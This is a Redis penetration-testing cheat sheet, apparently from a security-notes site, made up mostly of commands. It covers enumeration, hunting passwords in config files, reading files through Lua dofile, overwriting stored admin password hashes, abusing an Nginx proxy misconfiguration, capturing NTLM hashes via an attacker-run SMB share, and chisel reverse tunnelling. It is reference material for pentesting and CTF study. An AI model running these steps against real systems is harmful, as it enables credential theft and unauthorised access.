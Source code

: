 ```yaml
---
title: Redis Pentesting
description: Redis is the In-Memory NoSQL Database. A default port is 6379.
tags:
    - Database
refs:
date: 2023-09-09
draft: false
---
```


## Enumeration

```sh
nmap --script redis-info -p 6379 <target-ip>
nmap --script redis-brute -p 6379 <target-ip>

msf> use auxiliary/scanner/redis/redis_server
```

### Check Config File

If we have access to target system, find the configuration file then we may be able to get passwords.

```sh
find / -name "redis.conf" 2>/dev/null
grep -i pass /path/to/redis.conf
```

If we get the line with password written as below,

```sh
requirepass "password"
```

We can set the password in a redis client.

```sh
> auth "password"
```


<br />

## Connect

```sh
redis-cli -h <target-ip> -p 6379
# with password
redis-cli -h <target-ip> -p 6379 -a password

# using socket
redis-cli -s /path/to/redis.sock
```

After connecting and execute the first arbitrary command, we may got the following output.

```bash
NOAUTH Authentication required.
```

If so, we need to authenticate to communicate with the redis server.  

```bash
> auth <password>
# or
> auth default <password>
# or
> auth <username> <password>
```

<br />

## Commands (Non-RESP Format)

**Non-RESP (REdis Serialization Protocol)** is such like the other protocol's command. Commands are separated with spaces.

### Investigation

```sh
# Check credentials
> auth <username> <password>
> auth default <password>

# Set a password temporary until the service restarts.
> config set requirepass <password>

# Information on the Redis server
> info
> info keyspace

# List all
> config get *

# List all databases
> config get databases

# Select the database ('select <index>')
> select 0
> select 1
> select 12

# Read files and directories using Lua scripts
> eval "dofile('C:\\\\Users\\\\Administrator\\\\Desktop\\\\user.txt')" 0
> eval "dofile('C:\\\\Users\\\\<username>\\\\Desktop\\\\user.txt')" 0

# Find all keys
> keys *
```

### Get Key Value

```sh
# Get the type of value
> type <key_name>

# Get all fields and values of the hash stored at key.
> hgetall <key>
# e.g.
> hgetall admin

# Get a string value
> get <key> <field>
# e.g.
> get admin email

# Get a hashed value
> hget <key> <field>
# e.g.
> hget admin password

# Get multiple hashed values associated with specified fields
> hmget <key> <field1> <field2>
# e.g.
> hmget admin email password


# type: lists
> lrange <key_name> <start> <stop>
# e.g.
> lrange "userlist" 0 0
> lrange "userlist" 0 5

# type: sets
> smembers <key_name>

# type: sorted sets
> zrangebyscore <key_name> <min> <max>

# type: stream
> xread count <count> streams <key_name> <id>
```

### Set Key Value

```bash
# Set a hashed value in a field
> set <key> <field> <value>
# e.g.
> set admin email admin@example.com

# Set a hashed value in a field
> hset <key> <field> <value>
# e.g.
> hset admin password 286755fad04869ca523320acce0dc6a4
```

### Insert Values

```bash
> lpush <key> <element>
> lpush <key> <element> <element>
> lpush <key> <element> <element> <element>
# e.g.
> lpush myword "abracadabra"
```

<br />

## Commands (RESP Format)

**RESP (REdis Serialization Protocol)** is 
The syntax is…

- **`*<num>`**
    The number of arguments. 
- **`$<num>`**
    The string length of the argument.

Below is the command same as **`set name "john"`**.

```bash
telnet 10.0.0.1 6379
Trying 10.0.0.1...
Connected to 10.0.0.1.
Escape character is '^]'.

*3
$3
set
$4
name
$4
john
```

<br />

## GET/SET Key Value Commands with Nginx Misconfiguration

```js
location ~ /(.*)/(.*) {
    resolver 127.0.0.1; proxy_pass http://example.com/$1;
}
```

We can connect to redis socket using **`curl`** command.

```bash
# HSET <key> <field> <value>
curl -X "HSET" https://example.com/unix:/path/to/redis.sock:<key>%20<field>%20<value>%20/abc
```

<br />

## NTLM Hash Disclosure

In local machine, start SMB server.

```bash
mkdir share
sudo impacket-smbserver share ./share/ -smb2support
```

Now execute the following command in Redis client.

```bash
> eval "dofile('//10.0.0.1/share')" 0
```

We might get a NTLM hash in the incoming connection to the SMB server. We can see the SMB server logs in terminal.  
If the NTLM hash found, crack it.

<br />

## Port Forwarding Redis Server to Local Machine

In local machine,

```sh
chisel server -p 9001 --reverse
```

In target machine,

```sh
./chisel client <local-ip>:9001 R:6379:127.0.0.1:6379
```